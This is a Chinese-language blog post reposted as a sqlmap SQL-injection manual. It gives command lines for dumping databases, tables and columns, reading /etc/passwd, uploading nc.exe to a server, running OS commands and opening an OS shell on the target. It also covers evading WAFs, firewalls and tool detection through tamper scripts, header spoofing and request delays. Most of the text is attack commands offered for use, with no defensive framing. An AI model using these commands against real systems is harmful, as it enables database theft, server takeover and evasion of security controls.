 ```yaml
---
layout: post
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
category: 
tags: [sql]
---
```

{% include JB/setup %}
转自:<http://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "http://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "http://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "http://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "http://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "http://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "http://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "http://url/news?id=1"               #get注入
    sqlmap -u "http://url/news" --date "id=1"        #post注入
    sqlmap -u "http://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 http://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u http://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u http://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "http://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "http://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "http://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "http://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "http://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "http://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "http://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "http://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "http://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "http://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "http://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "http://url/news?id=1"  --proxy "http://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "http://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

![](/imgs/2015-08-18-02.jpg)

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "http://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于http://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "http://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "http://url/news?id=1" --referer "http://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "http://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "http://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "http://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "http://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "http://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "http://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "http://url/news?id=1"  --batch --smart  #默认智能判断注入
